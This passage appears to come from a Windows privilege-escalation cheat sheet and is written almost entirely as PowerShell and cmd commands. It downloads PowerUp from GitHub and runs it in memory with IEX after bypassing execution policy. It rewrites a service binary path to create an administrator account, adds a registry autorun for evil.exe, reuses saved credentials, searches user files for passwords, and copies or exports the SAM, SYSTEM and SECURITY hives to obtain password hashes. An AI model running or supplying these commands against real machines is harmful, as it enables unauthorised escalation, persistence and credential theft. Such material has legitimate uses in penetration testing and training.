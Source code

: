 ### Weak Service Permissions
```powershell
# PowerUp to check service permissions
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Get-ServiceUnquoted; Get-ModifiableServiceFile; Get-ModifiableService"

# Modify service binary path manually
sc config [servicename] binpath= "cmd.exe /c net user evil password123 /add && net localgroup administrators evil /add"

# Start/restart service
net stop [servicename]
net start [servicename]
```

### Registry AutoRuns
```powershell
# Check autoruns
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# Add registry autorun (if writable)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v evil /t REG_SZ /d "C:\path\to\evil.exe"
```

## Stored Credentials

### Check for Stored Credentials
```powershell
# Windows credential manager
cmdkey /list

# Use stored credentials
runas /savecred /user:DOMAIN\Username "cmd.exe /c whoami > C:\Users\Public\whoami.txt"

# Check for saved credentials in PowerShell
powershell -ep bypass -c "Get-ChildItem -Path C:\Users -Include *.xml,*.txt,*.ini,*.config -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'password'"
```

### SAM and SYSTEM Hashes
```powershell
# Copy SAM, SYSTEM, and SECURITY files
copy C:\Windows\System32\config\SAM C:\temp\
copy C:\Windows\System32\config\SYSTEM C:\temp\
copy C:\Windows\System32\config\SECURITY C:\temp\

# Registry export method
reg save HKLM\SAM C:\temp\sam.hive
reg save HKLM\SYSTEM C:\temp\system.hive
reg save HKLM\SECURITY C:\temp\security.hive
```
